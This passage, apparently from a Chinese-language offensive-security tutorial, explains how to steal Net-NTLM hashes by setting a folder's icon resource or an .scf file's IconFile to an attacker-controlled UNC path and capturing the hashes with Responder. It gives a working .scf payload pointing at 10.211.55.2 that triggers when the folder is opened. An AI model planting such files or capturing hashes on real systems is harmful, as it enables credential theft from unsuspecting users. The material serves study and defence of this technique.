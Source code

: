 
将 IconResource 替换为攻击者的 UNC 路径，如图所示：

![截图](94450d378d81550aad5bc4499d45e1d9.png)

只要有人访问了 test 文件夹，目标主机就会去请求指定 UNC 的图标资源，于是该主机会将当前用户的 Net-NTLM Hash 发送给指定的机器，我们在指定 UNC 的机器上使用 Responder 监听，就能接收到目标机器发来的 Net-NTLM Hash 了。

如图所示：

![截图](84b1b59cabb7fb9be64401d4871ba24f.png)

#### （2）scf 文件

**只要一个文件夹内含有 scf 后缀的文件，由于 scf 文件包含了 IconFile 属性，所以 explore.exe 会尝试获取文件夹的图标。**而 IconFile 是支持 UNC 路径的，所以当打开文件夹的时候，目标主机就会去请求指定 UNC 的图标资源，于是该主机会将当前用户的 NTLM v2 hash 发送给指定的机器，我们在该机器上使用Responder 监听，就能接收到目标机器发来的 Net-NTLM Hash 了。

以下是 scf 后缀的文件的格式：

```
v[Shell]
Command=2
IconFile=UNC 路径
[Taskbar]
Command=ToggleDesktop
```

创建一个 test 文件夹，在该文件夹内创建 test.scf 文件，文件内容如下：

```
[Shell]
Command=2
IconFile=\\10.211.55.2\test\test.ico
[Taskbar]
Command=ToggleDesktop
```

只要有人访问了 test 文件夹，目标主机就会去请求指定 UNC 的图标资源，于是该主机会将当前用户的 NTLM v2 hash 发送给指定的机器，我们在指定的 UNC 地址的机器上使用 Responder 监听，就能接收到目标机器发来的 Net-NTLM Hash了。如图所示：

![截图](376c1fe1d82148adf6ad0d15d29c6151.png)
